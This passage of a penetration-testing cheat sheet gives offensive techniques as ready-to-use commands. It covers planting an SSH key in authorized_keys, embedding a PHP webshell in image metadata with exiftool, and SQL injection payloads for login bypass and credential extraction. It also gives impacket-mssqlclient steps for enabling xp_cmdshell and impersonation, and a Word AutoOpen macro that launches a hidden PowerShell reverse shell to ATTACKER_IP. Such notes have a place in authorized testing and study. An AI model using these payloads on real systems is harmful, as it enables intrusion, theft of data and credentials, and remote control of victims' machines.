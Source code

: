         kali@kali:~$ cat fileup.pub > authorized_keys
        ```
    - upload php webshell to web server 
      - https://revshells.com/
    - upload hidden webshell in image file
      - https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py
      - `exiftool -comment='<?php system($_GET["cmd"]); ?>' image.jpg` – Embed PHP webshell in image metadata.
- Command Injection
  - `http://<target>/index.php?page=ping&ip=
  - find exploitable parameter in the web request that passes user input to system commands.
- SQL injection
    - payloads
    ```bash
    admin' OR 1=1 -- //
    ' ORDER BY 1-- //
    %' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
    %' UNION SELECT database(), user(), @@version, null, null -- //
    ' UNION SELECT null, null, database(), user(), @@version  -- //
    ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
    ' UNION SELECT null, username, password, description, null FROM users -- //
    AND 1=1 -- //
    AND IF (1=1, sleep(3),'false') -- //
    ```
    - impacket-mssqlclient
    ```bash
    kali@kali:~$ impacket-mssqlclient -windows-auth -target-ip
    enable_xp_cmdshell  -- To enable xp_cmdshell
    xp_cmdshell 'whoami'  -- To execute command
    
    enum_users  -- To enumerate users
    enum_impersonate -- Check for impersonation possibilities
    exec_as_login <login_name>  -- To impersonate a login

    enum_links -- To enumerate linked servers
    use_link <linked_server_name>  -- To use linked server
    ```
- Client-Side Attacks
  - Windows Word Macros
    - Create a Word document with a macro that opens a reverse shell when the document is opened.
    - View --> Macros --> Create new macro and paste the code below.
    - Example VBA code:
        ```vba
        Sub AutoOpen()
            Dim strCmd As String
            strCmd = "powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',ATTACKER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
            CreateObject("WScript.Shell").Run strCmd, 0, False
        End Sub
        ```
